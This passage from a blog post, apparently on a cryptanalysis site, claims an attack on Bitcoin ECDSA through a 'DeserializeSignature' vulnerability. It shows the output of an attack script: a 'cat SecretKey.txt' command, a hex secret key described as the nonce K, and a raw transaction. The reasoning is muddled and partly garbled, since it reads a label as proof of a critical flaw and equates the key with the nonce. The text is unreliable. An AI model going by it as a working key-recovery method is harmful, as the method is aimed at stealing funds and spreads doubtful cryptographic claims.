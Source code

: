 

<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>We launched this attack from&nbsp;<code><strong>deserialization_error_vulnerability_cve-2023-0085.sage</strong></code>and the result was saved to a file<code><strong>SecretKey.txt</strong></code></p>



<p>Now to see the successful result, open the file <code><strong>SecretKey.txt</strong></code></p>



<pre class="wp-block-code has-text-color has-link-color" style="color:#4092c2"><code><strong>cat SecretKey.txt</strong></code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2024/05/image-34-1024x223.png" alt="DeserializeSignature vulnerability in the Bitcoin network: cryptanalysis, consequences and the possibility of creating invalid ECDSA signatures" class="wp-image-5243"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2024/05/image-35-1024x292.png" alt="DeserializeSignature vulnerability in the Bitcoin network: cryptanalysis, consequences and the possibility of creating invalid ECDSA signatures" class="wp-image-5244"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code has-text-color has-link-color" style="color:#4092c2"><code><strong>Deployments ECDSA:

SecretKey = 0x2863763e8ec6bf755cc152e5080e7c74a95295f06cfbe86d9cb7c37f28f1013c

RawTX = 01000000010dbc696374c8d7ca61f32710e03aaedcb7a4f2428074814d0e1f4f7f5c1e5935000000008b483045022100b44a31bd81d3c596cc4d3776263229b6f52f2a729fbcafefffc9a0d955d46307022074e5feb333400732256fc44a681a1ba262b080a7cc5dfa11894e7ce4d9766c6f0141045cf7dd1ad49af6957415d6b76ff39cbf78f6e72f1db9199a01127687e7230f96614ff6f0184d2191fa7428872e311fe4ddf2b91f560b30fd7dc01d2118ac0b5bffffffff01d2040000000000001976a914d74b32dfa340da479ce64aaf5e326496eb3995f188ac00000000</strong></code></pre>



<p>We see an inscription&nbsp;<code>"Deployments ECDSA"</code>that means a critical vulnerability of the Bitcoin blockchain transaction</p>



<p><code>SecretKey&nbsp;</code>value in the format&nbsp;<code>HEX</code>, this is our secret key&nbsp;<code>"K" (NONCE)</code>:</p>



<p class="has-text-color has-link-color" style="color:#4092c2"><code><strong>K = 0x2863763e8ec6bf755cc152e5080e7c74a95295f06cfbe86d9cb7c37f28f1013c</strong></code></p>



<hr class="wp-block-separator has-alpha-channel-opacity"/>


